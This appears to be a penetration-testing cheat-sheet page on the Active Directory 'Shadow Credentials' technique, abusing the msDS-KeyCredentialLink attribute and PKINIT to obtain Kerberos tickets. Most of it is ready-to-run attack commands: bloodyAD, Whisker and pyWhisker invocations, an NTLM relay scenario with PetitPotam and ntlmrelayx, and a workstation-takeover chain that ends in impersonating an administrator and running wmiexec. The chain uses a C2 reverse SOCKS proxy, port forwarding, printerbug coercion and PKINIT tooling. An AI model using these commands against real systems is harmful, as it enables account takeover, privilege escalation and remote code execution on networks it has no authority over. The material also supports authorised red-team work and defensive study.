 # Password - Shadow Credentials

> Add **Key Credentials** to the attribute `msDS-KeyCredentialLink` of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user.  When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

:warning: User objects can't edit their own `msDS-KeyCredentialLink` attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

**Requirements**:

* Domain Controller on (at least) Windows Server 2016
* Domain must have Active Directory `Certificate Services` and `Certificate Authority` configured
* PKINIT Kerberos authentication
* An account with the delegated rights to write to the `msDS-KeyCredentialLink` attribute of the target object

**Exploitation**: 
- Windows/Linux
  ```ps1
  bloodyAD --host 10.1.0.4 -u bloodyAdmin -p 'Password123!' -d bloody add shadowCredentials targetpc$
  bloodyAD --host 10.1.0.4 -u bloodyAdmin -p 'Password123!' -d bloody remove shadowCredentials targetpc$ --key <key from previous output>
  ```
- From Windows, use [Whisker](https://github.com/eladshamir/Whisker):
  ```powershell
  # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
  Whisker.exe list /target:computername$
  # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
  Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
  Whisker.exe add /target:computername$ [/domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1]
  # Removes a key credential from the target object specified by a DeviceID GUID.
  Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /remove:2de4643a-2e0b-438f-a99d-5cb058b3254b
  ```

- From Linux, use [pyWhisker](https://github.com/ShutdownRepo/pyWhisker):
  ```bash
  # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
  # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
  pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename "test1"
  # Removes a key credential from the target object specified by a DeviceID GUID.
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id "a8ce856e-9b58-61f9-8fd3-b079689eb46e"
  ```

## Scenario

### Shadow Credential Relaying

- Trigger an NTLM authentication from `DC01` (PetitPotam)
- Relay it to `DC02` (ntlmrelayx)
- Edit `DC01`'s attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)
- Alternatively : `ntlmrelayx -t ldap://dc02 --shadow-credentials --shadow-target 'dc01$'`


### Workstation Takeover with RBCD

**Requirements**:

* `Print Spooler` service running
* `WebClient service` running

**Exploitation**:

* Using your C2, start a reverse socks on port 1080: `socks 1080`
* Enable port forward from port 8081 to 81 on the compromised machine: `rportfwd 8081 127.0.0.1 81`
* Start the relay: `proxychains python3 ntlmrelayx.py -t ldaps://dc.domain.lab --shadow-credentials --shadow-target target\$ --http-port 81`
* Trigger a callback on webdav: `proxychains python3 printerbug.py domain.lab/user:password@target.domain.lab compromised@8081/file`
* Use [PKINIT](https://github.com/dirkjanm/PKINITtools) to get a TGT for the machine account: `proxychains python3 gettgtpkinit.py domain.lab/target\$ target.ccache -cert-pfx </path/from/previous/command.pfx> -pfx-pass <pfx-pass>`
* Elevate your privileges by creating a service ticket impersonating a local admin: `proxychains python3 gets4uticket.py kerberos+ccache://domain.lab\\target\$:target.ccache@dc.domain.lab cifs/target.domain.lab@domain.lab administrator@domain.lab administrator_target.ccache -v`
* Use your ticket: `export KRB5CCNAME=/path/to/administrator_target.ccache; proxychains python3 wmiexec.py -k -no-pass domain.lab/administrator@target.domain.lab`


## References

* [Shadow Credentials: Workstation Takeover Edition - Matthew Creel - October 21, 2021](https://www.fortalicesolutions.com/posts/shadow-credentials-workstation-takeover-edition)
* [Shadow Credentials - The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
* [Shadow Credentials: Abusing Key Trust Account Mapping for Account Takeover - Elad Shamir - Jun 17](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)